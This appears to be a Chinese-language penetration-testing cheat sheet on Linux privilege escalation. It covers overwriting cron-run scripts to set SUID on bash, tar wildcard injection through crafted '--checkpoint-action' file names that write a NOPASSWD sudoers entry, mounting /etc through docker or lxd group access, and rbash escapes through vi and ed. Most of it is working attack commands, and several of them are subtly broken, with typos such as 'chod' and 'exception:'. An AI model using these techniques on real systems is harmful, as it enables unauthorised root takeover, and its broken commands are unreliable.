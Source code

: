 ```
#### 定时任务相关知识
配置文件/etc/crontab
```
* * * * *    username   /path
分时天月周    执行用户    路径
```
#### 利用
将定时任务将执行的脚本内容进行替换，使得执行恶意代码
**覆盖文件提权**
1、发现定时任务
```
*/1 * * * *  root /demo.py
```
2、修改执行脚本 demo.py
```
import os
try:
    os.system('chod u+s /bin/bash')
exception:
    system.exit()
```
3、等待定时任务执行，提权成功
**注入提权**
定时任务为压缩备份文件时
```
*/1*   * * *   root tar -zcf /var/backups/html.tgz/var/www/html/*
```
执行以下命令：
```
echo'echo "ignite ALL=(root) NOPASSWD: ALL" > /etc/sudoers'>test.sh
echo"" > "--checkpoint-action=exec=sh test.sh"
echo"" > --checkpoint=1
tarcf archive.tar *
```
### docker提权
#### 条件
用户在docker组中，这样普通用户都可使用docker
#### 利用
利用docker中默认为root用户，将系统文件挂载到docker中然后就能以root权限进行操作文件，从而实现提权
```
docker run -v /etc:/mnt -it alpine
```
### lxd提权
#### 概念
lxd、lxc、docker
lxc：系统容器，进程隔离，虚拟化
lxd：lxc的守护进程，用来管理lxc容器
docker：应用程序容器
#### 提权方式
和docker同理，将系统文件挂载到lxc的容器中，以root用户进行编辑从而提权
![](vx_images/56350813230856.png)
### capability提权
#### 相关知识    
Linux的权限分配机制，将root权限进行细分，作用到进程上，利用某些权限进程从而实现提权
### rbash绕过总结
rbash： restricted bash ，受限制的bash ,root用户可以指定普通用户的bash为rbash，以此限制相关操作。
```
usermod -s /bin/rbash user 
```
vi绕过
进入vi中使用set命令将shell改回bash
:set shell=/bin/bash
ed绕过
```
ed
!'/bin/bash'
